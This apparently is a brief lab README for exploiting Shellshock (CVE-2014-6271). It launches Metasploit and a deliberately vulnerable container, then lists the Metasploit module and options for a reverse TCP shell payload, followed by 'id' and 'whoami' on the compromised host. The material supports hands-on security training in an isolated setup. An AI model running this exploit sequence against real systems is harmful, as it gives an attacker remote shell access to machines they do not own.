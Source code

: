 Launch metasploit:

```shell
docker-compose run -p 8880:8880 ms
```

Launch shellshock-vulnerable server:

```shell
docker run -p 80:80 hmlio/vaas-cve-2014-6271
```

Find out machine IP:

```shell
docker inspect -f "{{ .NetworkSettings.IPAddress }}" <MACHINE_ID>
```

In Metasploit:

```metasploit
use exploit/multi/http/apache_mod_cgi_bash_env_exec
options
set RHOSTS <MACHINE-IP>
set TARGETURI /cgi-bin/stats
show payloads
set payload linux/x86/shell/reverse_tcp
options
check
exploit
id
whoami
```
